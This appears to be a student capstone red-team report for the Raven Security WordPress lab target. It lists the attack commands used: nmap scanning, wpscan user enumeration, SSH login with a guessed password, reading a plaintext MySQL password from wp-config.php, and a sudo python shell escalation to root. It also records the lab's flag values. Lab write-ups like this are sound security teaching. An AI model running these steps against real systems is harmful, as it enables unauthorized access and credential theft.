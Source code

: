 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Step 1: Scan the network to identify the IP addresses of Target 1

`nmap -sP 192.168.1.1-255`

[nmap IP Scan results](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_nmap_IPs_Target1.PNG "nmap IP Scan results")

`nmap -sV 192.168.1.110`

Step 2: Document all exposed ports and services.

[nmap Port Scan results](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_nmap_Ports_Target1.PNG "nmap Port Scan results")

Due to `port 80` being open, we went directly to the website via p`ort 80` `192.168.1.110:80` and discovered that Raven Security is a WordPress Commenter, giving us the clue to run the wordpress scan. 

[WordPress Screenshot](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/wordpress_port80_raven_security.PNG")

This scan identifies the services below as potential points of entry:
- Target 1
  - `port 22` - SSH
  - `port 80` - HTTP

### Vulnerabilities

The following vulnerabilities were identified on each target:

#### CVE-1999-0013
Stolen credentials from SSH clients via ssh-agent program, allowing other local users to access remote accounts belonging to the ssh-agent user.

Guessed, weak, or default password: Access gained to user michael due to the weak or default password of “michael”.

#### CWE-521: Weak Password Requirements
The product does not require that users should have strong passwords, which makes it easier for attackers to compromise user accounts. Authentication mechanisms often rely on a memorized secret (also known as a password) to provide an assertion of identity for a user of a system. It is therefore important that this password be of sufficient complexity and impractical for an adversary to guess. The specific requirements around how complex a password needs to be depends on the type of system being protected. Selecting the correct password requirements and enforcing them through implementation are critical to the overall success of the authentication mechanism.

#### CWE-759: Use of a One-Way Hash without a Salt. 
The software uses a one-way cryptographic hash against an input that should not be reversible, such as a password, but the software does not also use a salt as part of the input. This makes it easier for attackers to pre-compute the hash value using dictionary attack techniques such as rainbow tables.
It should be noted that, despite common perceptions, the use of a good salt with a hash does not sufficiently increase the effort for an attacker who is targeting an individual password, or who has a large amount of computing resources available, such as with cloud-based services or specialized, inexpensive hardware. Offline password cracking can still be effective if the hash function is not expensive to compute; many cryptographic functions are designed to be efficient and can be vulnerable to attacks using massive computing resources, even if the hash is cryptographically strong. The use of a salt only slightly increases the computing requirements for an attacker compared to other strategies such as adaptive hash functions. See CWE-916 for more details.

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data (listed in chronological order):

*Exploit*
- User michael used their username as their password
  - `wpscan –-url http://192.168.1.110/wordpress -eu`
  - [Users Identified](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/Kali_Users_Identified.PNG "Users Identified")
  - `ssh michael@192.168.1.110`
  - [login as michael](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_login_michael.PNG "Login_Michael")

*Flag #2*
-  Flag #2 {fc3fd58dcdad9ab23faca6e9a36e581c} 
  - `cd /var/www`
  - `cat flag2.txt`
  - [Flag 2](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_michael_flag2.PNG "Flag 2")

*Flag #1*
- Flag #1 {b9bbcb33e11b80be759c4e844862482d}
  - `grep -RE flag html`
  - [Flag 1](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_michael_flag1.PNG "Flag 1")

*Exploit*
- MySQL server login credentials in plain text found in wp-config.php file.
  - `cat /var/www/html/wordpress/wp-config.php`
    - Password: R@v3nSecurity
  - [MySQL DB Password](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_MySQL_DB_password.PNG "MySQL DB Password")

*Flag #3*
- Flag #3 {afc01ab56b50591e7dccf93122770cd2} 
  - [Flag 3](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_mySQL_wp_posts_flags.PNG "Flag 3")

*Flag #4*
- Flag #4 {715dea6c055b9fe3337544932f2941ce}
  - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
  - `cd ../..`
  - `cat flag4.txt`
  - [Flag 4](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_root_python_flag4.PNG "Flag 4")




Step 6: Use the credentials to log into MySQL and dump WordPress user password hashes.
- michael@target1:~$ `mysql -u root -p`
- Enter password: `R@v3nSecurity`
- [MySQL Login](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_mySQL_login.PNG "MySQL Login")

- `mysql> show databases;`
- [mysql show databases](mysql "mysql show databases")
- `mysql> use wordpress;`
- [mysql wordpress DB](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_mySQL_wordpress_db.PNG "mysql wordpress DB")



      

